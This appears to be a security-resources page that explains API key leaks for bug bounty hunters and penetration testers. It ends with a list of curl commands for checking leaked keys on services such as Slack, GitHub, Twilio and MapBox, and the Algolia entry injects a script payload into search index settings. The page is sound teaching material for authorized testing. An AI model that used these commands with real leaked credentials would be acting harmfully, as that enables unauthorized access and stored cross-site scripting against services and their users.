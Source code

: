 # API Key Leaks

# Introduction:
APIs (Application Programming Interfaces) have become the backbone of modern software development, enabling seamless communication and integration between different applications and services. However, the security of APIs and the sensitive data they handle is of utmost importance. In this article, we will delve into the concept of API key leaks, their potential consequences, and how bug bounty hunters and penetration testers can utilize them in their assessments.

## Understanding API Keys:
API keys are unique alphanumeric codes issued by an application or service provider to authenticate and authorize access to their APIs. These keys are often embedded in requests made to the API and serve as a form of identification for the requesting application or user. API keys are typically categorized as either public or private, depending on their purpose and level of access granted.

### API Key Leaks:
API key leaks occur when these sensitive keys are unintentionally exposed or disclosed. This can happen due to a variety of reasons, such as insecure storage, improper handling, or vulnerabilities in the application itself. When an API key is leaked, it can be used by malicious actors to gain unauthorized access to the associated API and potentially exploit the system.

Consequences of API Key Leaks:
The consequences of API key leaks can be severe and far-reaching. Some of the potential risks include:

Unauthorized Access: Attackers armed with leaked API keys can gain access to protected resources and perform actions on behalf of legitimate users, leading to data breaches, unauthorized modifications, or theft of sensitive information.

Financial Implications: Compromised API keys can be used to carry out fraudulent activities, such as making unauthorized transactions, accessing premium features without payment, or generating excessive usage charges.

Reputation Damage: API key leaks can erode the trust users place in an application or service. Public exposure of sensitive information can tarnish a company's reputation and result in a loss of business.

### API Key Leaks and Bug Bounty Hunting:
Bug bounty hunters are security researchers who actively search for vulnerabilities in applications and report them to the concerned organizations for a reward. API key leaks can be valuable findings for bug bounty hunters. Here's how they can utilize them in their assessments:

Reconnaissance: Bug bounty hunters often perform reconnaissance activities to gather information about a target application. Identifying potential API endpoints and looking for indicators of API key exposure can help them focus their efforts on areas that are more likely to yield vulnerabilities.

Exploitation: If a bug bounty hunter discovers a leaked API key, they can attempt to exploit it to gain unauthorized access or perform actions beyond their intended scope. By understanding the associated API's functionality, they can identify potential attack vectors and demonstrate their impact to the organization.

Proof of Concept: A leaked API key can serve as a solid proof of concept for demonstrating the risk and severity of an API-related vulnerability to the organization. Demonstrating the ability to abuse a leaked API key effectively highlights the potential consequences and helps organizations understand the urgency of remediation.

### API Key Leaks and Penetration Testing:
Penetration testers, like bug bounty hunters, play a crucial role in identifying vulnerabilities in systems and networks. Here's how API key leaks can be utilized during penetration testing:

Black-Box Testing: During a black-box penetration test, where limited information about the target is available, discovering a leaked API key can provide a valuable entry point for further exploitation and gaining deeper access to the system.

Post-Exploitation: Once a penetration tester has gained access to a system or network, discovering and exploiting leaked API keys can help them escalate privileges, move laterally, or gain access to additional resources.

Security Awareness: By including API key leak scenarios in penetration testing engagements, organizations can raise awareness among their development teams and encourage best practices in API key management. This proactive approach helps prevent future leaks and reinforces the importance of secure coding practices.

# Conclusion:
API key leaks pose significant risks to the security and integrity of applications and services that rely on APIs. Bug bounty hunters and penetration testers play a crucial role in identifying and mitigating these risks. By understanding the potential consequences of API key leaks and leveraging them as part of their assessments, these professionals contribute to improving the overall security posture of organizations, ultimately enhancing trust in the digital ecosystem.

### Tutorials for API Key Vulnerabilities
* [Find Hidden API Keys & How to Use Them](https://community.turgensec.com/finding-hidden-api-keys-how-to-use-them/) - A good article on what this is all about
* [MapBox API Key Documentation](https://docs.mapbox.com/help/troubleshooting/how-to-use-mapbox-securely/) - Exactly what it describes a MapBox API Key Documentation
* [Project Blacklist3r](https://notsosecure.com/project-blacklist3r) - A tool to find and store leaked API keys for penetration testing purposes
* [Saying Goodbye to My Favorite 5 Minute P1](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/) - A good overview of API leaks and how they could be discovered easily

### Payloads for API Key Vulnerabilities

Below is a listing of some of the known payloads for API keys, if you know of others that I am missing feel free to let me know by creating a ticket or by creating a pull request where you add them yourself.

#### Algolia

```
curl --request PUT \
--url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
--header 'content-type: application/json' \
--header 'x-algolia-api-key: <example-key>' \
--header 'x-algolia-application-id: <example-application-id>' \
--data '{"highlightPreTag": "<script>alert(1);</script>"}'

```

#### Slack API Token
```
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"

```

#### Facebook Access Token

```
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2

```

#### Github client id and client secret

```
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'

```

#### Twilio Account_sid and Auth Token

```
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN

```
#### Twitter API Secret

```
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'

```

#### Twitter Bearer Token

```
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'

```
#### Gitlab Personal Access Token

```
curl "https://gitlab.example.com/api/v4/projects?private_token=<your_access_token>"

```

#### MapBox API Token

```
#Check token validity
curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"

#Get list of all tokens associated with an account. (only works if the token is a Secret Token (sk), and has the appropiate scope)
curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"

```